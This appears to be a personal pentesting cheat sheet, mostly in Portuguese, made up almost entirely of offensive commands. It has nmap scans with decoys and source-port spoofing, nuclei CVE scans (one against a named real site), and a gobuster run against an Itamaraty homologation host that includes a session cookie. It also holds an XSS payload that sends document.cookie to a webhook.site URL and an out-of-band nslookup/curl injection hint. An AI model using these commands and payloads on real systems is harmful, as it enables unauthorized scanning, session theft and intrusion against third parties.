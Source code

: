 "Vulnerability Disclosure Program" "VDP" site:uk -bughunt -hackerone -intigriti -bugcrowd -yeswehack

https://dorks.faisalahmed.me/


nmap -sU -p 53 --script=dns-nsid 10.129.2.48 -> ver~soa dns do servidor alvo pode ser vuln de exposição de dados sensiveis etc


subfinder -all -d alvo.com -recursive | httpx | nuclei -nmhe -t ./nuclei-templates/http/cves/2025/CVE-2025-0133.yaml


nmap 10.129.4.84 -sV -D RND:2 -Pn -sU -sS -g53 --max-retries 2 --script-args http.useragent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36" -p-

nuclei -t cves/ -u http://alvo.com -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)"

extensão dotgit, wappalyzer, shodan, DNSlytics

nuclei -u https://cursos.rizomasur.org -tags moodle

`
<img src="x" onerror="fetch('https://webhook.site/de5d7883-a25c-41cd-beb6-113d2b50a605',{method:'POST',body:'cookie='+document.cookie})">
`

gobuster dir -u https://app.homolog.itamaraty.local/GestaoFinanceira/Pages/Dashboard/   -w /usr/share/wordlists/dirb/common.txt   -t 50   -H 'Host: app.homolog.itamaraty.local'   -H 'Cookie: ASP.NET_SessionId=whvgzv2plsyzvnglugu2kxyc; outro_cookie=valor'   -k -x html,php,js,aspx,bat,txt,zip

- nslookup -q=cname webhook || curl webhook  (passar em alguns headers)
  <img width="265" height="238" alt="image" src="https://github.com/user-attachments/assets/5ec6aab3-0e33-4fb5-b94e-42f2c5143f1f" />
  <img width="201" height="213" alt="image" src="https://github.com/user-attachments/assets/2be4433b-e94d-48cb-8053-35259838100e" />



